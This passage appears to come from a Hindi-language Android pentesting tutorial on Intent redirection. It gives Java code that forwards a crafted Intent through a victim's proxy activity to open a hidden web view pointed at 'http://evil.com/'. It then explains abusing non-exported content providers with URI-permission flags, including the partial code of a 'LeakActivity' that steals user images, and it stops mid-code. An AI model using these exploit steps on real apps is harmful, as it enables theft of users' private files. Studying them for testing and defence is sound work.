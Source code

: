 लेकिन हमलावर विक्टिम को मजबूर कर सकता है `AuthWebViewActivity` खुद को लॉन्च करने के लिए:
```java
Intent extra = new Intent();
extra.setClassName("com.victim", "com.victim.AuthWebViewActivity");
extra.putExtra("url", "http://evil.com/");

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);
```
और कोई सुरक्षा उल्लंघन उत्पन्न नहीं होगा, क्योंकि उस ऐप के पास जो हमले के तहत है, वह अपने सभी घटकों तक पहुंच रखता है। इस कोड टुकड़े का उपयोग करके हमलावार अप्प को एंड्रॉइड सिस्टम की निर्मित प्रतिबंधों को दूर कर सकते हैं।

# प्रभाव का विस्तार

इस दुर्बलता के प्रभाव को विस्तारित करने के लिए, आपको **ऐसी अन्य दुर्बलताओं / गलतियों का पता लगाना होगा जो दुर्बलता के प्रभाव को बढ़ा सकती हैं** (क्योंकि दुर्बलता अपने आप में कोई जोखिम नहीं बना रही है)।

## सामग्री प्रदाताओं के माध्यम से हमलों का विस्तार

मूल ऐप के विषमताओं के अलावा, **हमलावर व्यक्ति को विषमताओं के सामग्री प्रदाताओं के पहुंच को प्राप्त करने का प्रयास कर सकता है** जो निम्नलिखित शर्तों को पूरा करते हैं:

* यह **निर्यात नहीं होना चाहिए** (अन्यथा इसे **बिना इस लेख में चर्चा की जा रही दुर्बलता का उपयोग किए बिना सीधे हमला किया जा सकता है**)
* इसे **`android:grantUriPermissions`** फ़्लैग को **`true`** पर सेट किया जाना चाहिए।
* `android:grantUriPermissions="true"` इसका अर्थ है कि आपका जावा कोड `FLAG_GRANT_READ_URI_PERMISSION` और `FLAG_GRANT_WRITE_URI_PERMISSION` का उपयोग कर सकता है **उस `ContentProvider` द्वारा प्रदान की जाने वाली किसी भी `Uri` के लिए**।
* `android:grantUriPermissions="false"` इसका अर्थ है कि केवल उन `Uri` मानों का उपयोग `FLAG_GRANT_READ_URI_PERMISSION` और `FLAG_GRANT_WRITE_URI_PERMISSION` के साथ किया जा सकता है जिन्हें बच्चा `<grant-uri-permission>` तत्वों द्वारा निर्दिष्ट किया गया है।

हमलावर को एक संबद्ध इंटेंट के प्राप्तकर्ता के रूप में सेट करना होगा और निम्नलिखित फ़्लैग सेट करना होगा

* `Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION` प्रदाता के लिए स्थायी पहुंच की अनुमति देता है (इस फ़्लैग के बिना, पहुंच केवल एक बार होती है)
* `Intent.FLAG_GRANT_PREFIX_URI_PERMISSION` प्रिफ़िक्स द्वारा URI पहुंच की अनुमति देता है - उदाहरण के लिए, एक पूर्ण पथ का उपयोग करके अलग-अलग पहुंच प्राप्त करने की बजाय `content://com.victim.provider/image/1` जैसे पूर्ण पथ का उपयोग करके हमलावर सभी प्रदाता की सामग्री का उपयोग कर सकता है और फिर `ContentResolver` का उपयोग करके `content://com.victim.provider/image/1`, `content://com.victim.provider/image/2` आदि को पता कर सकता है।
* `Intent.FLAG_GRANT_READ_URI_PERMISSION` प्रदाता पर पढ़ने के लिए अनुमति देता है (जैसे `query`, `openFile`, `openAssetFile` आदि)
* `Intent.FLAG_GRANT_WRITE_URI_PERMISSION` लिखने के लिए अनुमति देता है

एक आम प्रदाता का उदाहरण जहां हमलावर इसे प्राप्त कर सकता है और `query`, `update`, `insert`, `delete`, `openFile`, `openAssetFile` जैसे नियमित आपरेशन कर सकता है।
```markup
<provider android:name="com.victim.ContentProvider" android:exported="false" android:authorities="com.victim.provider" android:grantUriPermissions="true"/>
```
उपयोगकर्ता चित्रों की चोरी का उदाहरण `AndroidManifest.xml` फ़ाइल का है।
```markup
<activity android:name=".LeakActivity" android:exported="true" />
```
`MainActivity.java` फ़ाइल
```java
Intent extra = new Intent();
extra.setFlags(Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
| Intent.FLAG_GRANT_PREFIX_URI_PERMISSION
| Intent.FLAG_GRANT_READ_URI_PERMISSION
```